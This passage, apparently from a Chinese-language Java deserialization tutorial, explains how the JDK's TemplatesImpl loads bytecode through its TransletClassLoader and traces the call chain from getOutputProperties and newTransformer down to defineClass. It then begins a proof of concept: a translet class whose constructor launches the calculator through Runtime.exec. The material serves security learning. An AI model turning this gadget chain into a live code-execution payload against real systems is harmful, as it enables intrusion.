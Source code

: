 ### 6. TemplatesImpl 加载字节码

- 我们先跟进 TemplatesImpl 这个包中看 TemplatesImpl 的结构图

![img](https://drun1baby.top/2022/06/03/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%9F%BA%E7%A1%80%E7%AF%87-05-%E7%B1%BB%E7%9A%84%E5%8A%A8%E6%80%81%E5%8A%A0%E8%BD%BD/TemplateImplBag.png)

可以看到在 `TemplatesImpl` 类中还有一个内部类 `TransletClassLoader`，这个类是继承 `ClassLoader`，并且重写了 `defineClass` 方法。

![img](https://drun1baby.top/2022/06/03/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%9F%BA%E7%A1%80%E7%AF%87-05-%E7%B1%BB%E7%9A%84%E5%8A%A8%E6%80%81%E5%8A%A0%E8%BD%BD/TemplateImplCode.png)

- 简单来说，这里的 `defineClass` 由其父类的 protected 类型变成了一个 default 类型的方法，可以被类外部调用。

我们从 `TransletClassLoader#defineClass()` 向前追溯一下调用链：

JAVA

```
TemplatesImpl#getOutputProperties() -> TemplatesImpl#newTransformer() ->

TemplatesImpl#getTransletInstance() -> TemplatesImpl#defineTransletClasses()

-> TransletClassLoader#defineClass()
```

追到最前面两个方法 `TemplatesImpl#getOutputProperties()` 和 `TemplatesImpl#newTransformer()` ，这两者的作用域是public，可以被外部调用。

我们尝试用 `TemplatesImpl#newTransformer()` 构造一个简单的 POC

首先先构造字节码，注意，这里的字节码必须继承`AbstractTranslet`，因为继承了这一抽象类，所以必须要重写一下里面的方法。

JAVA

```
package src.DynamicClassLoader.TemplatesImplClassLoader;  
  
import com.sun.org.apache.xalan.internal.xsltc.DOM;  
import com.sun.org.apache.xalan.internal.xsltc.TransletException;  
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;  
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;  
  
import java.io.IOException;  
  
// TemplatesImpl 的字节码构造  
public class TemplatesBytes extends AbstractTranslet {  
    public void transform(DOM dom, SerializationHandler[] handlers) throws TransletException{}  
    public void transform(DOM dom, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException{}  
    public TemplatesBytes() throws IOException{  
        super();  
 Runtime.getRuntime().exec("Calc");  
 }  
}
```
